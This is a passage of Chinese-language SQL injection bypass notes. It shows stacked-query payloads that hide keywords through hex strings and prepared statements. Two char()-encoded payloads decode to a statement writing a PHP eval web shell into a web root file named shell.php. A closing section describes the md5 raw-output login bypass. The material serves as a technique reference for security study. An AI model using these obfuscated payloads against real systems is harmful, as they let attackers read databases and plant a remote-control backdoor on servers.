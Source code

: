 ```bash
| mysql              |
| performance_schema |
| security           |
| test               |
+--------------------+
6 rows in set (0.02 sec)
```

即payload类似如下：

```bash
1';sEt @a=0x73686F7720646174616261736573;PRepare hello from @a;execute hello;#
```

MySql预处理配合字符串拼接绕过关键字
原理就是借助char()函数将ascii码转化为字符然后再使用concat()函数将字符连接起来，有了前面的基础这里应该很好理解了：

```bash
set @sql=concat(char(115),char(101),char(108),char(101),char(99),char(116),char(32),char(39),char(60),char(63),char(112),char(104),char(112),char(32),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(119),char(104),char(111),char(97),char(109),char(105),char(93),char(41),char(59),char(63),char(62),char(39),char(32),char(105),char(110),char(116),char(111),char(32),char(111),char(117),char(116),char(102),char(105),char(108),char(101),char(32),char(39),char(47),char(118),char(97),char(114),char(47),char(119),char(119),char(119),char(47),char(104),char(116),char(109),char(108),char(47),char(102),char(97),char(118),char(105),char(99),char(111),char(110),char(47),char(115),char(104),char(101),char(108),char(108),char(46),char(112),char(104),char(112),char(39),char(59));prepare s1 from @sql;execute s1;
```

也可以不用concat函数，直接用char函数也具有连接功能：

```bash
set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,119,104,111,97,109,105,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare s1 from @sql;execute s1;
```

## 14’".md5($pass,true)."’ 登录绕过

很多站点为了安全都会利用这样的语句：

```bash
SELECT * FROM users WHERE password = '.md5($password,true).';
```

md5(string,true) 函数在指定了true的时候，是返回的原始 16 字符二进制格式，也就是说会返回这样子的字符串：'or’6\xc9]\x99\xe9!r,\xf9\xedb\x1c：

![在这里插入图片描述](SQLi%E7%BB%95%E8%BF%87%E5%A7%BF%E5%8A%BF%E6%95%B4%E7%90%86.assets/2611a867b98e45589be9b4aacbab0061.png)
